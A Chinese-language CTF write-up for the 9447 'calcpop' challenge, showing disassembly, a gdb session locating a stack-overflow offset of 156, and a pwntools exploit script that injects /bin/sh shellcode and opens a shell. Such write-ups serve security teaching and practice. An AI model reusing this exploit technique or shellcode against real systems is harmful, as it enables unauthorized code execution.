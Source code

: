 ```yaml
---
title: 'Writeup-9447 CTF: calcpop'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
share: true
---
```


这是一道 ROP ，先看反汇编代码：
{% highlight asm %}
...
8048460:	55                   	push   %ebp
8048461:	89 e5                	mov    %esp,%ebp
8048463:	57                   	push   %edi
8048464:	56                   	push   %esi
8048465:	be 00 01 00 00       	mov    $0x100,%esi
804846a:	53                   	push   %ebx
804846b:	83 e4 f0             	and    $0xfffffff0,%esp
804846e:	81 ec 90 00 00 00    	sub    $0x90,%esp
8048474:	a1 60 a0 04 08       	mov    0x804a060,%eax
8048479:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
8048480:	00
8048481:	8d 5c 24 10          	lea    0x10(%esp),%ebx
8048485:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
804848c:	00
804848d:	89 df                	mov    %ebx,%edi
804848f:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
8048496:	00
8048497:	89 04 24             	mov    %eax,(%esp)
804849a:	e8 a1 ff ff ff       	call   8048440 <setvbuf@plt>
804849f:	c7 04 24 10 88 04 08 	movl   $0x8048810,(%esp)
80484a6:	e8 55 ff ff ff       	call   8048400 <puts@plt>
80484ab:	eb 29                	jmp    80484d6 <main+0x76>
80484ad:	8d 76 00             	lea    0x0(%esi),%esi
80484b0:	a1 40 a0 04 08       	mov    0x804a040,%eax
80484b5:	89 04 24             	mov    %eax,(%esp)
80484b8:	e8 33 ff ff ff       	call   80483f0 <_IO_getc@plt>
80484bd:	85 c0                	test   %eax,%eax
80484bf:	0f 88 e3 00 00 00    	js     80485a8 <main+0x148>
80484c5:	88 07                	mov    %al,(%edi)
80484c7:	83 ee 01             	sub    $0x1,%esi
80484ca:	83 c7 01             	add    $0x1,%edi
80484cd:	83 f8 0a             	cmp    $0xa,%eax
80484d0:	0f 84 ca 00 00 00    	je     80485a0 <main+0x140>
80484d6:	83 fe 01             	cmp    $0x1,%esi
80484d9:	77 d5                	ja     80484b0 <main+0x50>
80484db:	85 f6                	test   %esi,%esi
80484dd:	0f 85 bd 00 00 00    	jne    80485a0 <main+0x140>
...
{% endhighlight %}

这段代码是 main() 函数起始的位置，可以看到这里的工作是将终端输入的数据循环读入栈中。其中 esi 寄存器是循环计数器，初始值是 0x100, 而在栈中划分的空间只有 0x90 字节, 这里存在栈溢出。

用 `pattern.py 256` 生成 pattern, 开 gdb 调试 calcpop.
{% highlight console%}
$ gdb calcpop
Reading symbols from calcpop...done.
(gdb) r
Starting program: /home/cubelin/is/ctf/9447/pwn/calcpop/calcpop
Welcome to calc.exe
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
Missing a space; your input was 0xffffd390
Missing a space; your input was 0xffffd390
exit
Exiting...

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
(gdb) quit

$ pattern.py 0x41326641
Pattern 0x41326641 first occurrence at position 156 in pattern.
{% endhighlight%}

main() 函数返回地址在 offset 为 156 的位置。然后借由程序返回的栈地址，可以直接执行栈中的 shellcode.

exp 如下:
{% highlight python %}
#!/usr/bin/env python
# coding=utf8

from pwn import process, p32, remote

p = process("./calcpop")
#p = remote('calcpop-4gh07blg.9447.plumbing', 9447)

print p.recvline()

p.send('get_stack_address\n')
line = p.recvline()
stack_addr = int(line.split()[-1][2:], 16)

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
             "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")

payload = 'A' * 156 + p32(stack_addr + 156 + 4) + shellcode + '\n'

p.send(payload)
p.send('exit\n')
p.interactive()
{% endhighlight %}
